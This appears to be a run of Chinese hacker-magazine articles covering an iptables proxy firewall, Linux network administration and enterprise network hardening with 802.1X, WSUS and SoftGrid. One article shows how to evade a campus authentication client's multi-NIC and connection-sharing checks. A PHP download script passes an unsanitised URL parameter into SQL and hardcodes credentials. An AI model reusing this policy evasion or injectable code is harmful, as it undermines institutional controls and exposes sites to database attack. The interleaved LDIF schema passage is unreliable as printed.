iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD ACCEPT

##### 打开回环
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

##### 允许 ping（eth+ 表示匹配 eth0 和 eth1）
iptables -A INPUT -i eth+ -p icmp --icmp-type 8 -j ACCEPT
iptables -A OUTPUT -o eth+ -p icmp --icmp-type 0 -j ACCEPT

##### 允许主动向外连接（端口范围）
iptables -A INPUT -i eth1 -p tcp --dport 1024:4999 -m state --state ESTABLISHED -j ACCEPT
iptables -A OUTPUT -o eth1 -p tcp --sport 1024:4999 -m state --state NEW,ESTABLISHED -j ACCEPT

##### 允许 DNS 查询（UDP）
iptables -A OUTPUT -o eth1 -p udp --dport 53 -j ACCEPT
iptables -A INPUT -i eth1 -p udp --sport 53 -j ACCEPT

# 当 DNS 用 UDP 查询不成功时，改用 TCP
iptables -A OUTPUT -o eth1 -p tcp --dport 53 -j ACCEPT
iptables -A INPUT -i eth1 -p tcp --sport 53 -j ACCEPT

# 允许内网用户访问代理服务器的 3128 和 1080 端口
iptables -A INPUT -i eth0 -s 192.168.1.0/24 -p tcp --dport 3128 -m state --state NEW,ESTABLISHED -j ACCEPT
iptables -A OUTPUT -o eth0 -d 192.168.1.0/24 -p tcp --sport 3128 -m state --state ESTABLISHED -j ACCEPT
iptables -A INPUT -i eth0 -s 192.168.1.0/24 -p tcp --dport 1080 -m state --state NEW,ESTABLISHED -j ACCEPT
iptables -A OUTPUT -o eth0 -d 192.168.1.0/24 -p tcp --sport 1080 -m state --state ESTABLISHED -j ACCEPT
```

之后我们增加这个脚本的可执行权限。

`[root@localhost ~]# chmod 711 /<脚本的路径>/iptables.sh`

在 `/etc/rc.d/rc.local` 里加入一行 `"/<脚本的路径>/iptables.sh"`，让它在开机时可以自动运行。

其实 iptables 的功能还有很多，比如做 NAT 后就能实现共享上网。我们最好在 iptables 里再加上这样一条规则：  
`iptables -t mangle -A PREROUTING -i eth0 -j TTL --ttl-set 64`。  
它表示所有从 eth0 进入的 IP 包，将其 TTL 值都设为 64。

#### 总结

本文介绍的是用代理服务器来达到局域网内计算机可以上网的目的，并且还能有效地保护主干网络。当然，仅仅用 iptables 的 NAT 功能也能达到这样的目的，只是没有用 Squid 灵活。Squid 中可以设置各种访问控制列表来限制用户。  
如果想用 Squid 来实现像大型网站那样的 Web 加速功能，还可以在 iptables 后面放数台代理服务器，然后用 iptables 的 DNAT 功能来实现负载均衡。读者可以添加这条规则试一试：

`iptables -t nat -A PREROUTING -p tcp --dport 80 -i eth1 -j DNAT --to 192.168.1.86-192.168.1.90:80`。

适合读者：网管　　前置知识：Linux

## 黑防VIP成果展

## Linux下绕过多网卡实现双网登陆


文／图　海蛳天鸣（Ansty）

现在国内部分大学和企业内部网络都使用了锐捷或港湾认证，最大可能地保证了自身的安全，但是这些认证有许多烦人的限制。例如锐捷官方认证程序在连接的时候会检测运行平台上是否存在多网卡、是否有安装代理软件或者网关之类的软件，如果发现有，就停止认证。

我们现在的网络环境是有两条网络，分别为校园网和宽带网。局域网内有多台机器，通过路由连接宽带网，同时也可以通过一台机器连上校园网，这台机器就是我们对校园网的出口路由了。

前面说了锐捷官方认证程序会检测运行平台，会严查多网卡、代理、共享连接之类的，那么我们就要想办法绕过这些限制。对于 Windows 平台下的绕过非常简单就不做介绍了，这里只说说 Linux 下的实现。

Linux 下实现的基本原理是：局域网内所有机器通过路由器互联，路由器负责 ADSL 拨号，所有机器可以通过路由器上互联网；A 机连接校园网并打开共享连接功能，作为局域网内机器进入校园网的网关，使用路由表来实现自动择网。

```bash
ansty@Ansty:~$ sudo ifconfig -a
eth0  链路封装:以太网，硬件地址 ************0
      inet 地址:192.168.1.100，广播地址:192.168.1.255，掩码:255.255.255.0
      UP BROADCAST RUNNING MULTICAST MTU:1500
...
eth1  链路封装:以太网，硬件地址 ************2
      inet 地址:172.***.***.***，广播:172.***.***.255，掩码:255.255.255.0
      UP BROADCAST RUNNING MULTICAST MTU:1500
...
lo    链路封装:本地环回
      inet 地址:127.0.0.1，掩码:255.0.0.0
      UP LOOPBACK RUNNING MTU:16436
...
```

其中 eth0 网卡用于连接到 ADSL 路由器，IP 为 192.168.1.100；eth1 网卡用于连接到校园网提供的端口上，IP 为 172.***.***.***。

#### 网络环境

- 1）系统环境
- 2）网卡情况

```bash
系统版本：Ubuntu 7.10
ansty@Ansty:~$ sudo uname -a
Linux Ansty 2.6.22-14-generic #1 SMP Tue Dec 18 08:02:57 UTC 2007 i686 GNU/Linux
```

#### 功能实现

在以上网络环境的基础上，我们开始配置网络，以达到我们的目的。

##### 1）网络配置

eth1 这张网卡前面已经介绍过了，是用于连接到校园网的。因为我所在学校的校园网是动态获取 IP 的，所以这里要选择“自动配置（DHCP）”，如图1所示。如果你的是固定 IP 就选固定 IP 自行输入。这里 A 机分配到的 IP 是 172.***.***.***。


eth0 这张网卡用于通过路由连接到 ADSL 网络，是通过路由器自动分配得到 IP 的，所以这里还是选用动态获取 IP，得到的 IP 是 192.168.1.100。

其他非 Ubuntu 系统可以上网查相关网卡配置资料，不过一般都可以通过 ifconfig 命令来对网卡进行配置，这里就不阐述了。

##### 2）安装认证程序

要达到我们的目的，就不能使用锐捷官方的认证程序，而要使用第三方的。这里使用的是 xmuruijie-1.3，相比 xrgsu，它不会出现多网卡检测，因为 XMU-Ruijie 是不检测多网卡的，功能上只做一件事，就是完成认证。

- 解压：`tar -xvzf xmuruijie-1.3.tar.gz`
- 安装：`cd xmuruijie-1.3 && sudo ./install.sh`

安装的时候需要 Root 权限，Ubuntu 终端下一定记得要 sudo，其他版本的 Linux 自行切换到 Root 权限下即可。

##### 3）配置

在终端里输入 `sudo gedit /etc/xmuruijie.conf` 来配置 xmuruijie.conf 文件，其关键内容如下。

```conf
###### this is the configuration file of XMU-Ruijie
###### parameters for authentication
[auth]
user: Your-Account
passwd: Your-Password
interface: eth0

# parameters for daemonize:
[daemon]
logfile: /var/log/xmuruijie.log
pid: /var/run/xmuruijie.pid
```

将这个文件里面的 `Your-Account` 改成认证的账号，`Your-Password` 改成密码，`eth0` 改成连接校园网所用的网卡，这里我改成了 eth1。

因为我们学校需要用 xrgsu 算法来认证，所以还需要修改 `/etc/init.d/xmuruijie`，加上 `-x` 参数来启动。在终端输入 `sudo gedit /etc/init.d/xmuruijie`，找到下面的部分，在 `/usr/sbin/xmuruijie -d` 后面加上一个 `-x` 即可。

```bash
case "$1" in
start)
  echo "Starting xmuruijie"
  /usr/sbin/xmuruijie -d -x
  echo "Running dhcp client to get ip address..."
  if [ -f "/sbin/dhcpcd" ]; then
```

##### 4）使用

在 Ubuntu 系统中，网络操作都需要 Root 权限，所以执行的时候不要忘了 sudo。

- 启动认证：`sudo /etc/init.d/xmuruijie start`
- 停止认证：`sudo /etc/init.d/xmuruijie stop`

##### 5）配置静态路由表

到了这里，认证算是搞定了，剩下的就是要配置 Linux 双网的择网了。默认双网卡激活连通了以后，系统的静态路由表会出现两个默认网关，Linux 下上网有时候会出现问题，所以我们要删除一个默认网关。删除前运行命令 `ansty@Ansty:~/xmuruijie-1.3$ route -n`，得到如下的内核 IP 路由表。

| 目标 | 网关 | 子网掩码 | 标志 | 跃点 | 引用 | 使用 | 接口 |
|---|---|---|---|---|---|---|---|
| 172.**.**.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | eth1 |
| 192.168.1.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | eth0 |
| 169.254.0.0 | 0.0.0.0 | 255.255.0.0 | U | 1000 | 0 | 0 | eth0 |
| 0.0.0.0 | 172.**.**.*** | 0.0.0.0 | UG | 0 | 0 | 0 | eth1 |
| 0.0.0.0 | 192.168.1.1 | 0.0.0.0 | UG | 100 | 0 | 0 | eth0 |

这里我们要选择用哪个网关作为我们的默认网关呢？其中 172.**.**.*** 是校园网的网关，192.168.1.1 是路由器的网关，连通到 ADSL 线路。在 Ubuntu 下，使用命令 `sudo route del -net 0...`。0.0.0.0 netmask 0.0.0.0 gw 要删除的网关，就可以删除不做默认网关的地址，剩下的那个就是默认网关了。我这里用192.168.1.1路由作为默认网关，则执行“sudo route del -net 0.0.0.0 netmask 0.0.0.0 172.**.**.***”，将校园网的网关删除即可。

不过这样做的话，我们就不能访问校园网资源了，所有的数据只会从192.168.1.1这个网关出去。为了解决访问校园网的问题，我们就要利用静态路由表，让到某个IP段的数据通过指定网关出去。也就是说，添加一张静态路由表就可以解决了。

```
sudo route add -net ip段 netmask 子网掩码 gw 网关
```

我这里执行“sudo route add -net 202.***.***.0 netmask 255.255.255.0 gw 172.**.**.***”，即可将我所在学校的IP段通过172.**.**.***网关出去。

```
ansty@Ansty:~/xmuru/jie-1.3$ route -n
```

查看一下内核IP路由表。

| 目标 | 网关 | 子网掩码 | 标志 | 跃点 | 引用 | 使用 | 接口 |
|---|---|---|---|---|---|---|---|
| 202.***.***.0 | 172.**.**.*** | 255.255.255.0 | UG | 0 | 0 | 0 | eth1 |
| 172.**.**.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | eth1 |
| 192.168.1.0 | 0.0.0.0 | 255.255.255.0 | U | 0 | 0 | 0 | eth0 |
| 169.254.0.0 | 0.0.0.0 | 255.255.0.0 | U | 1000 | 0 | 0 | eth0 |
| 0.0.0.0 | 192.168.1.1 | 0.0.0.0 | UG | 100 | 0 | 0 | eth0 |

这样，本机所有对202.***.***.0网段的访问都会通过172.**.**.***这个网关出去了。如果有更多的IP段继续route add就可以了。这样就实现了对A机双网共存，自动选择网关了。

不过这只是我们实现的前一部分，还有一部分是整个局域网都要实现双网自动择网。我们的A机是用作出口校园网的网关，所以还要开启它的转发功能。在Root下运行下面两句命令就可以开启转发功能了。

```
echo 1 | tee /proc/sys/net/ipv4/ip_forward
/sbin/iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth1 -j MASQUERADE
```

局域网的其他机器就可以通过A机进入校园网了。但是我们需要自动择网，希望做到不修改其他机器的网络信息，那就要用到路由器。因为所有机器的默认网关是192.168.1.1，所以利用路由器的静态路由表功能就可以实现了，如图2所示。


其中192.168.1.100是A机的IP，局域网的所有机器在遇到列表列出的地址的时候就会以192.168.1.100为网关出去了，这样我们就实现了Linux下双网自动择网，绕过多网卡等的认证了。

- 适合读者：编程爱好者，网管
- 前置知识：PHP，Linux

### 基于符号链接的防盗链妙招实现

文/图 西邮猎手（王聪）

现在一些稍大些的下载网站都加入了防盗链功能，而防盗链的方法很多，本文所讲的是通过创建一个临时的符号链接来达到防盗链的目的。

符号链接实际上就是一个指向文件或目录的指针，在Linux系统下，我们可以使用“ln -s 文件或目录名 链接名”命令来创建一个符号链接。如果是用PHP做的动态网页，可以使用symlink()函数来达到同样的效果。本文的主要思路是，当用户请求下载时，PHP创建一个指向download目录的符号链接（假设download是存放下载文件的目录，当然你可以改成其他名字），而符号链接的名字由用户名进行MD5加密得到，这样用户看到的下载路径中就可以不包含download，用户也就不知道真正的下载路径了。同时，系统每过一定的时间就删除刚才创建的符号链接，这样即使该用户将这个下载地址告诉了其他人，由于指向download目录的符号链接已经被删除，所以别人也就没法下载这个文件了。

我们编写的PHP脚本如下。

```php
<?php
$db=mysql_connect('localhost','apache','password');
/*连接数据库服务器*/
mysql_select_db('download',$db);
/*使用download数据库，假设下载文件的信息保存在该数据库中*/
mysql_query("SET CHARACTER SET GB2312");
/*如果文件名中有中文，这一条是必需的*/
$query=mysql_query("select name from download where id='".$_GET['id']."'");
/*通过id的值得到文件名*/
$row=mysql_fetch_array($query);
$filename=$row['name'];
session_start();
$user=$_SESSION["User"];
/*得到当前用户的用户名*/
$linkname=md5($user);
/*将当前用户的用户名进行MD5加密*/
if(@readlink("/var/www/html/test/$linkname")!="/var/www/html/test/download")
/*首先判断已有的符号链接是否正确，readlink前加@是不显示错误信息*/
{
    symlink("/var/www/html/test/download","/var/www/html/test/$linkname");
    /*如果符号链接不存在或不正确，则创建一个，首先必须保证你的Apache用户对test目录有写权限*/
}
$filepath="/test/$linkname/$filename";
echo "<a href=$filepath>test.pdf</a>";
?>
```

在浏览器里输入http://127.0.0.1/test/ln.php?id=0，然后在Shell里看看符号链接是否创建成功，一般会有如下显示。

```bash
[wangcong@localhost ~]$ ls -l /var/www/html/test/
lrwxrwxrwx 1 apache apache 27 02-29 20:52 098f6bcd4621d373cade4e832627b4f6 -> /var/www/html/test/download
```

再看看test.pdf的超链接地址，如图1所示，说明我们要的效果已达到。


将这个超链接复制，用wget下载看能否成功。

```bash
[wangcong@localhost ~]$ wget http://127.0.0.1/test/098f6bcd4621d373cade4e832627b4f6/test.pdf
--20:53:34--  http://127.0.0.1/test/098f6bcd4621d373cade4e832627b4f6/test.pdf
Connecting to 127.0.0.1:80... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：136338 (133K) [application/pdf]
Saving to: `test.pdf`
100%[=====>] 136,338 --.-K/s in 0.001s
20:53:35 (132 MB/s) - `test.pdf` saved [136338/136338]
```

从上面的结果我们可以看出，不但可以成功下载，而且真正的链接地址还没有被发现。之后我们再用vim编辑一个如下的脚本。

```bash
#!/bin/bash
rm -f `find /var/www/html/test/ -type l -cmin +30`
```

这个脚本先执行反引号里的命令，查找一个修改时间大于30分钟的符号链接，并将其删除。最后在/etc/crontab下添加一条“0,30 * * * * /root/dellink.sh”命令，其意为每隔30分钟执行一次上面的脚本。

到此，一个基于符号链接的防盗链的雏形就完成了，有兴趣的朋友可以在此基础上进一步完善其功能。

前置知识：网络管理  
关键词：网络隔离、域、softgrid

### 企业隔离网络的安全加固方案

文／图 林居绿 朱珠


公司的隔离业务系统是一个独立的物理网络，与办公网是隔离的，从这个层面来说，业务系统网络是相当安全的。但如大家所知，安全都是相对的，虽然业务系统网络与外网是隔离的，但也要加强业务系统网络内部的安全。为此，我们拟定了下面一种安全方案，最大限度地提高业务系统网络的安全。

- 1）实施Windows 2003域，构建一个稳定的安全的网络基础。域是实现标准化管理和安全管理的基础，有了域，才好进行下一步工作。在实施域的同时，也同时实现DHCP服务，简化IP地址及相关参数的管理。有了域，用户也不能随便安装软件，保证系统标准和安全。
- 2）实施网络接入控制。只有加入了域的电脑并且登录了域的电脑才能接入业务系统网络，这一步是相当重要的，因为这一步做了，即使有非法的电脑接了业务系统网络的网线，由于它没有加入域，不能通过802.1x的验证，交换机端口会被逻辑关闭，这样非法电脑就不能接入网络了，也只有这样，网络才算真正是隔离的。
- 3）通过域的组策略禁用或启用USB端口、光驱或软驱，防止这些介质带进病毒。
- 4）部署WSUS，实现补丁的自动分发。
- 5）通过softgrid虚拟化应用程序解决方案，实现业务软件客户端的零安装，主要是保证此软件升级方便和软件的安全性，不会是一些修改过的软件。这样也保证了隔离业务系统的安全。

从上面的实施，保证了非法电脑不能接入网络，客户端系统相当于由管理员统一定制了，标准且安全，这样从总体上提高了业务系统网络安全。下面将讲讲具体的实施步骤，拓扑简图如图1所示，需要一台Windows Server 2003，两台Windows XP客户端，其中一台作softgrid软件打包使用，可以使用虚拟机替代，另外一台作业务客户机。


图1

本文的重点主要是网络接入控制和softgrid这一块，因为域相关的部署已有很多文章讲过，本文只简单叙述。

## 部署Windows 2003域

- 基本步骤如下（在Windows Server 2003上操作）：
- 1）单击“开始->运行”，键入“DCPROMO”，单击“确定”。
- 2）在出现“Active Directory安装向导”时，单击“下一步”开始安装。
- 3）阅读“操作系统兼容性”信息后，单击“下一步”。
- 4）选择“新域的域控制器”（默认），然后单击“下一步”。
- 5）选择“在新林中的域”（默认），然后单击“下一步”。
- 6）对“DNS全名”，键入“test.com”，然后单击“下一步”。（这表示一个完全限定的名称。）
- 7）单击“下一步”，接受将test作为默认“域NetBIOS名”。（NetBIOS名称提供向下兼容性。）
- 8）在“数据库和日志文件文件夹”屏幕上，将Active Directory日志文件文件夹“指向”c:\Windows\NTDS，然后单击“下一步”继续。
- 9）保留“共享的系统卷”的默认文件夹位置，然后单击“下一步”。
- 10）在“DNS注册诊断”屏幕上，单击“在这台计算机上安装并配置DNS服务器”。单击“下一步”继续。
- 11）选择“只与Windows 2000或Windows Server 2003操作系统兼容的权限”（默认），然后单击“下一步”。
- 12）在“还原模式密码”和“确认密码”中，键入密码，然后单击“下一步”继续。
- 13）单击“下一步”开始安装Active Directory。在出现提示时，请插入Windows Server 2003安装CD。

以上步骤完成后会要求重启计算机，在计算机重启之前，保证服务器的DNS指向本机IP。

## 部署DHCP服务（在Windows Server 2003域控制器上操作）

进入添加删除程序里面安装DHCP服务，完成后从管理工具中打开DHCP管理界面，右击服务器图标，选择“授权”，这样DHCP服务才能在域中提供服务。授权之后右击服务器图标，选择“新建作用域”，进行如下操作。

- 1）在“作用域名”窗口，填入一个有意义的名称。
- 2）在“IP地址范围”里填入IP的起始地址和子网掩码。
- 3）在“添加排除”窗口后一直“下一步”。
- 4）到“路由器”栏填入默认网关。
- 5）在“域名称和DNS服务器”窗口填入DNS服务器的IP。这里是前面域控制器的IP，然后一直“下一步”。

## 部署WSUS 3自动补丁分发系统（在Windows Server 2003域控制器上操作）

WSUS补丁分发系统的基本安装和使用以前有文章讲过，这里不再叙述，只是在安装之前请安装好IIS、.net framework 2.0和SQL Server 2005 EXPRESS，WSUS可以使用SPL express版。另外后面的softgrid也需要它。由于这个网络不能直接连接外部网络，所以也不能直接从微软网站下载补丁，这就需要离线导入更新数据，这需要你还有一台能够直接从微软下载补丁的WSUS服务器，然后做如下操作。

```bash
wsusutil export c:\wsus.cab c:\wsus.log
```

- 1）从外部的WSUS服务器导出数据元。
- 2）将外部的wsus\wsuscontent文件夹的文件拷贝入当前的wsus服务器的相应目录。
- 3）将第一步导出的数据元复制到当前WSUS服务器的C盘，并导入数据元“wsusutil import c:\wsus.cab c:\wsus.log”。导入导出数据元要花几分钟的时间，请耐心等候。

要域内客户机自动从WSUS获取补丁，需要在域的组策略里面更改一下，相关组策略位于“计算机配置/管理模板/windows组件/windows update”下，可以指定是否启用更新，以及补丁服务器的地址和端口等，如图2和图3所示。

#### 部署网络接入控制系统

网络接入控制的意思就是防止有人非法接入网络，比如外部人员未经允许就接入网络，这样可能导致对方拷贝走网络内的文件或进行其他违规操作。不过现在的网络接入控制通常都要求接入层的交换机支持802.1x协议，网络接入控制的大致原理如图4所示。


图2


图3


图4

根据结果把用户定向到正常VLAN或GUEST VLAN。

下面介绍具体的实施步骤。

- 1. 对于Windows 2003的域，为了方便通过组策略对客户端的有线网络身份验证进行配置，需要先扩展架构（对于Windows 2008域，网络准入控制NAP功能已经内置，可以做到更细粒度的控制），扩展步骤如下。
- （1）把下面的内容保存为802.3schema.ldf

```ldif
##### Copyright (c) 2006 Microsoft Corporation
#
##### MODULE: 802.3Schema.ldf
#
# define schemas for these attributes:
##### ms-net-ieee-8023-GP-PolicyGUID
##### ms-net-ieee-8023-GP-PolicyData
##### ms-net-ieee-8023-GP-PolicyReserved

dn: CN=ms-net-ieee-8023-GP-PolicyGUID,CN=Schema,CN=Configuration,DC=X
changetype: ntdsSchemaAdd
objectClass: attributeSchema
ldapDisplayName: ms-net-ieee-8023-GP-PolicyGUID
adminDisplayName: ms-net-ieee-8023-GP-PolicyGUID
adminDescription: This attribute contains a GUID which identifies a specific 802.3 group policy object on the domain.
attributeId: 1.2.840.113556.1.4.1954
attributeSyntax: 2.5.5.12
omSyntax: 64
isSingleValued: TRUE
systemOnly: FALSE
searchFlags: 0
rangeUpper: 64
showInAdvancedViewOnly: TRUE
systemFlags: 16

dn: CN=ms-net-ieee-8023-GP-PolicyData,CN=Schema,CN=Configuration,DC=X
changetype: ntdsSchemaAdd
objectClass: attributeSchema
ldapDisplayName: ms-net-ieee-8023-GP-PolicyData
adminDisplayName: ms-net-ieee-8023-GP-PolicyData
adminDescription: This attribute contains all of the settings and data which comprise a group policy configuration for 802.3 wired networks.
attributeId: 1.2.840.113556.1.4.1955
attributeSyntax: 2.5.5.12
omSyntax: 64
isSingleValued: TRUE
systemOnly: FALSE
```

- 1）首先，客户端登录域进入桌面，系统自动提交用户信息到交换机，这些用户信息包括用户名、密码和登录的域；
- 2）交换机把收到的用户信息发送到IAS服务器以进行验证，IAS又到域用户数据库中验证用户信息。通常情况下，IAS与域控制器是同一台服务器。IAS把验证结果发回到交换机，交换机searchFlags: 0  
rangeUpper: 1048576  
schemaIdGuid:: i5SYg1d0kU29TY1+1mnJ9w==  
showInAdvancedViewOnly: TRUE  
systemFlags: 16  
dn: CN=ms-net-ieee-8023-GP-PolicyReserved,CN=Schema,CN=Configuration,DC=X  
changetype: ntdsSchemaAdd  
objectClass: attributeSchema  
ldapDisplayName: ms-net-ieee-8023-GP-PolicyReserved  
adminDisplayName: ms-net-ieee-8023-GP-PolicyReserved  
adminDescription: Reserved for future use  
attributeId: 1.2.840.113556.1.4.1956  
attributeSyntax: 2.5.5.10  
omSyntax: 4  
isSingleValued: TRUE  
systemOnly: FALSE  
searchFlags: 0  
rangeUpper: 1048576  
schemaIdGuid:: xyfF0wYm602M/RhCb+7lzg==  
showInAdvancedViewOnly: TRUE  
systemFlags: 16  

- --------------------------------------------
- Reload the schema cache to pick up altered classes and attributes
- --------------------------------------------
dn:  
changetype: ntdsSchemaModify  
add: schemaUpdateNow  
schemaUpdateNow: 1  
-  

- --------------------------------------------
- define schemas for the parent class.
- ms-net-ieee-8023-GroupPolicy
- --------------------------------------------
dn: CN=ms-net-ieee-8023-GroupPolicy,CN=Schema,CN=Configuration,DC=X  
changetype: ntdsSchemaAdd  
objectClass: classSchema  
ldapDisplayName: ms-net-ieee-8023-GroupPolicy  
adminDisplayName: ms-net-ieee-8023-GroupPolicy  
adminDescription: This class represents an 802.3 wired network group policy object. This class contains identifiers and configuration data relevant to an 802.3 wired network.  
governsId: 1.2.840.113556.1.5.252  
objectClassCategory: 1  
rdnAttId: 2.5.4.3  
subClassOf: 2.5.6.0  
systemMayContain: 1.2.840.113556.1.4.1956  
systemMayContain: 1.2.840.113556.1.4.1955  
systemMayContain: 1.2.840.113556.1.4.1954  
systemPossSuperiors: 1.2.840.113556.1.3.30  
systemPossSuperiors: 1.2.840.113556.1.3.23  
systemPossSuperiors: 2.5.6.6  
schemaIdGuid:: ajggmRmrRkSTUAy4eO0tmw==  
defaultSecurityDescriptor: D:(A;;...)  
RPWPCRCCDLCLORCWOWDSDDTSW;;;DA)(A;;  
RPWPCRCCDLCLORCWOWDSDDTSW;;;SY)(A;;  
RPLCLORC;;;AU)  
showInAdvancedViewOnly: TRUE  
defaultHidingValue: TRUE  
systemOnly: FALSE  
defaultObjectCategory: CN=ms-net-ieee-8023-GroupPolicy,CN=Schema,CN=Configuration,DC=X  
systemFlags: 16  

- --------------------------------------------
- Reload the schema cache to pick up altered classes and attributes
- --------------------------------------------
dn:  
changetype: ntdsSchemaModify  
add: schemaUpdateNow  
schemaUpdateNow: 1  
-  

（2）执行命令导入架构：

```bash
ldifde -i -v -k -f 802.3Schema.ldf -c DC=X DC=test,DC=com
```

## 2. 安装并配置 IAS

- （1）在 Windows 2003 域控制器上安装 IAS，从“添加/删除程序->添加/删除 Windows 组件->网络服务->Internet 验证服务”安装。
- （2）配置 IAS  
  A）新建 Radius 客户端  
  从“管理工具”里进入“Internet 验证服务”管理界面，右击“Radius 客户端”，选“新建 Radius 客户端”，在“名称和地址”窗口，在“好记的名称”栏里填上一个有意义的名字即可，比如交换机的代号，而“客户端 IP 地址”栏填写接入层交换机的 IP 地址。然后在“其他信息”窗口，“客户端-供应商”默认选择，而“共享的机密”填入一个共享密钥，交换机通过这个密钥来认证自己，如图5所示。  


  B）建立相应的远程访问策略  
  在管理界面中右击“远程访问策略”，新建策略。  

  策略配置方法：设置自定义策略，策略名自定义一个有意义的名字。  

  策略状况：单击“添加”，在“选择属性”窗口选择 Windows Groups，再点“添加”，选择 Domain Users 组。  

  权限：授予远程访问权限。  

  编辑配置文件：进入“身份验证”标签，点“EAP 方法”按钮，点“添加”，选“受保护的 EAP”，如图6所示。  


图6

## 3. 配置接入层交换机并开启 802.1X 协议验证

下面是 HP 交换机启用相应端口 802.1X 验证的一段命令，其他交换机应该有所不同，请参照执行。

```bash
radius-server host 192.168.1.1 key admin
// 配置IAS服务器的地址和访问密钥，密钥就是前面配置的共享机密
aaa authentication port-access eap-radius
// 配置端口使用EAP进行验证
aaa port-access authenticator A7-A12
aaa port-access authenticator A7 unauth-vid 30
aaa port-access authenticator A8 unauth-vid 30
aaa port-access authenticator A9 unauth-vid 30
aaa port-access authenticator A10 unauth-vid 30
aaa port-access authenticator A11 unauth-vid 30
aaa port-access authenticator A12 unauth-vid 30
aaa port-access authenticator active
```

## 4. 安装一台 Windows 2008 服务器并配置相应组策略

有线网络身份认证的组策略选项只有 Windows 2008 或 Vista 上才有，为了配置组策略，需要安装一台 Windows 2008 并加入域，配置好组策略之后，这台 Windows 2008 就可退出域了。

- 1）安装 Windows 2008，并安装“组策略管理”功能。默认情况下，在安装了 Windows 2008 后，“组策略管理”功能组件没有安装，需要进入“服务器管理”的“功能”下选择“添加功能”，安装“组策略管理”。
- 2）在 Windows 2008 加入域之后，用域管理员登录，运行“组策略管理”，右击“Default Domain Policy”，点编辑，进入“计算机配置->Windows 设置->安全设置->系统服务”下，双击 Wired AutoConfig，选择服务启动模式为自动。
- 3）进入“计算机配置->Windows 设置->安全设置->有线网络（IEEE 802.3）策略”，右击，创建一个新的策略，进“安全”标签，取消“缓存用户信息以便随后连接到该网络”；选中“为网络访问启用 IEEE 802.1X 身份验证”；网络身份验证方法选择“受保护的 EAP”；然后点“属性”，取消“验证服务器证书”，确定，其他选项保持默认即可，如图7所示。  


图7

## 5. 客户端需要 Windows XP SP3 及以上系统

这样配置之后，可以实现这样的效果，就是未通过域身份验证的电脑将分配一个不能访问业务系统网络的 IP，相当于被隔离了。

### 用组策略禁止 USB 等外设端口

访问 http://support.microsoft.com/kb/555324/en-us，把上面的 adm 文件内容复制保存为一个 usb.adm 文件。把此 usb.adm 拷贝到域控制器的 inf 目录，并进入相应组策略编辑界面，进入管理模板，选“添加/删除模板”，添加 usb.adm。右击 restrict drives，选“查看”、“筛选”，取消“只显示能完全管理的策略设置”项，如图8所示。这时，在右边就有了禁用或启用各种外设的选项，根据需要选择即可。

### 使用 SoftGrid 分发应用程序


图8

SoftGrid 解决方案以域为基础，结合 SoftGrid Server、SoftGrid Sequencer、SoftGrid Client 一并形成完整的虚拟应用程序解决方案，其中 SoftGrid Sequencer 用以测试和制作需要部署的应用程序包，SoftGrid Server 用以向 SoftGrid Client 分发 SoftGrid Sequencer 生成的程序包。这样，客户机就不必安装应用软件，直接从服务器调用，应用程序只需要在服务器维护，大大降低维护量。

比如 SAP 客户端 sap 620 要升级成 sap 640，就只需要在服务器端维护，不必再到每台客户机去升级，大大减轻了维护量，也不干扰客户端的正常使用。可以从微软网站下载 softgrid 4.5 的测试版。下面大致描述一下使用 softgrid 实现 sap 客户端 sap 640 的基本过程。

## 1. 在域控制器上安装 SoftGrid Server 并配置

- 1. 确保已经安装了 mmc3.0 和 SQL Server 2005 Express with SP2。
- 2. 配置 SQL Express：进入 SQL Server Configuration Manager 配置界面，选中 SQLEXPRESS 的协议，启用 TCP/IP，然后修改 TCP/IP 属性，“TCP 动态端口”为空，“TCP 端口”为 1433，“活动”和“已启用”都为“是”，如图9所示。
- 3. 安装 softgrid 服务器程序（MSAppVirt_server_setup_4.5.0.606.exe）。


图9

安装 softgrid 服务器时，需要指定数据库，直接填写数据库名，如 pdc\sqlexpress，在选择组时一定要选择 domain admins，测试账户可用管理员。

- 4. 安装完成后需要把 Program Files\Microsoft SoftGrid\Microsoft System Center Virtual Application Server\SoftGrid Server\content 目录共享，共享名为 content。
- 5. 完成后从管理工具的 softgrid management console 进入 softgrid 服务器管理界面，点击“provider policy”，然后双击右边的 default provider，点 Group assignment，添加 domain users 组。

## 2. 安装 SoftGrid Sequencer 并打包

SoftGrid Sequencer 是打包工具，需要一台干净的 Windows XP SP3 系统，这台电脑需要先加入域，然后再安装 SoftGrid Sequencer。SoftGrid Sequencer 的安装很简单（MSAppVirt_sequencer_setup_4.5.0.606.exe），一直下一步即可。为保证纯净性和可重复使用，建议使用虚拟机做 SoftGrid Sequencer 并启用 undo 磁盘功能。另外，这台电脑一定要有两个以上磁盘分区，并修改 C 盘之后一个分区号为 Q。

接着就是打包，下面以打包 SAP 客户端 sap logon 640 为例进行说明。在 Q 盘创建一个目录 sap.001 作安装目录，在桌面上创建一个目录为 sap，作打包后的保存目录。启动 SoftGrid Sequencer，点击工具栏的 New 图标，弹出向导，出现 package information 窗口，如图10所示。在 Package Name 处填 sap，server URL 选 RTSP，hostname 填 softgrid server 的主机名，端口 554，path 为 sap。


图10

准备好之后，点击 begin monitoring 按钮，打包开始。之后选择安装目录，一定要为 q:\sap.001。接下来是安装，安装的文件有可能被复制到系统盘，如 c:\windows，不必理会，会自动打包进去的。安装完之后需要手动把两个 ini 文件拷贝到 c:\windows，因为安装过程不会自动把它们拷贝过去，还需要把修改后的 services 文件拷贝到 C:\WINDOWS\system32\drivers\etc 目录，完成后停止监视，并点完成，如图11所示。


图11


图13

手动安装，这里讲讲手动安装。手动安装基本也是点“下一步”，主要有两个地方要注意，一是 desktop configuration server 窗口，type 要选择 softgrid virtual application server，hostname 要填 softgrid server 的地址，端口为 554；二是在 softgrid streaming connection security 窗口，选择 Allow any connection。

在 launch applications 窗口，点 launch all，完成后把它另存到第一步桌面上创建的 sap 目录中，并把它拷贝到 softgrid server 的 content 目录下。然后登录 softgrid server 的管理界面，导入刚才的应用程序。方法是右击 Application，点 Import applications，如图12所示，从 UNC 路径导入 content 共享下的 sap，然后点下一步。在 published shortcuts 窗口全选，在 Access permissions 这里添加上 domain users，默认只有 domain admins。
